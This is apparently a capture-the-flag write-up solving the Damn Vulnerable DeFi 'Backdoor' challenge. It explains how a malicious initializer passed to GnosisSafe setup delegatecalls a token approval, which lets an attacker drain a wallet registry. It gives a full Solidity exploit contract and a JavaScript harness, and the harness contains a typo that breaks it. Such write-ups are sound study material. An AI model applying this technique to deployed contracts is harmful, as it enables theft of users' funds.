 ## GOAL
Your goal is to take all funds from the registry. In a single transaction.

## Expalantion 
This is really a difficult one so let us break it.
1. Firt what is GnosisSafe wallet? The best way is to check it yourself, however my understanding is that it is a multi-sig wallet, that allow many users to be owners, you can setup modules in it if more than half of the owners agreed.
2. Second what is a proxy contract? So imagine you have a contract and you want to upgrade it to another contract what should you do? Here proxies come to place, you can create a proxy contract add all data in it and then you add function to delegate calls to any contract you want by specifying the address. 
3. Now in the GnosisSafe.sol you have a setup function that allow you to setup your proxy.
4. Now if you see in the walletRegistery contract they told us that the proxy is called by 
    /**
     @notice Function executed when user creates a Gnosis Safe wallet via GnosisSafeProxyFactory::createProxyWithCallback
             setting the registry's address as the callback.
     */
5. So let us check the createProxyWithCallback in GnosisSafeProxyFactory. As you can see we can set intializer in createProxyWithCallback function so what we will add ;) ?
6. So now how we will break this contract?
    * We will create a contract that with an exploit function
    * The exploit function will call the setup method and since it has optional to parameter to make delegate call to a specific address and data also to make a delegate call so in the data we will call the approvefunction to approve ourself for spending the tokens.
    * Then we will call the createProxyWithCallback and pass all parameters we need.
    * Now we will transfer the dvt tokens to ourself.

## Solution
```solidity
import "@gnosis.pm/safe-contracts/contracts/common/Enum.sol";
import "@gnosis.pm/safe-contracts/contracts/proxies/GnosisSafeProxyFactory.sol";
import "@gnosis.pm/safe-contracts/contracts/GnosisSafe.sol";
import "../DamnValuableToken.sol";

contract AttackBackdoor {
    address public factory;
    address public masterCopy;
    address public walletRegistry;
    IERC20 public token;


    constructor(
        address _factory,
        address _masterCopy,
        address _walletRegistry,
        address _token
    ) {
        factory = _factory;
        masterCopy = _masterCopy;
        walletRegistry = _walletRegistry;
        token = IERC20(_token);
    }

    function approveWithDelegate(address _tokenAddress, address _attacker) external {
        IERC20(_tokenAddress).approve(_attacker, 10 ether);
    }

    
    function exploit(address[] memory users) external {
        for (uint256 i = 0; i < users.length; i++) {
            // Need to create a dynamically sized array for the user to meet signature req's
            address[] memory owner = new address[](1);
            owner[0] = users[i];

            // Create ABI call for proxy
            string
                memory signatureString = "setup(address[],uint256,address,bytes,address,address,uint256,address)";
            bytes memory initGnosis = abi.encodeWithSignature(
                signatureString,
                owner,
                1,
                address(this),
                abi.encodeWithSelector(AttackBackdoor.approveWithDelegate.selector,address(token),address(this)),
                address(0),
                address(0),
                0,
                address(0)
            );

            GnosisSafeProxy newProxy = GnosisSafeProxyFactory(factory)
                .createProxyWithCallback(
                    masterCopy,
                    initGnosis,
                    123,
                    IProxyCreationCallback(walletRegistry)
                );

            token.transferFrom(
                address(newProxy),
                msg.sender,
                10 ether
            );
        }
    }
}
```
```javascript
const attackerToken = this.token.connect(attacker);
const attackerFactory = this.walletFactory.connect(attacker);
const attackerMasterCopy = this.masterCopy.connect(attacker);
const attackerWalletRegistry = this.walletRegistry.connect(attacker);

    
// Deploy attacking contract
const AttackModuleFactory = await ethers.getContractFactory("AttackBackdoor", attacker);
const attackModule = await AttackModuleFactory.deploy(
    attackerFactory.address,
    ttackerMasterCopy.address,
    attackerWalletRegistry.address,
    attackerToken.address
);



// Do exploit in one transaction (after contract deployment)
await attackModule.exploit(users);
```
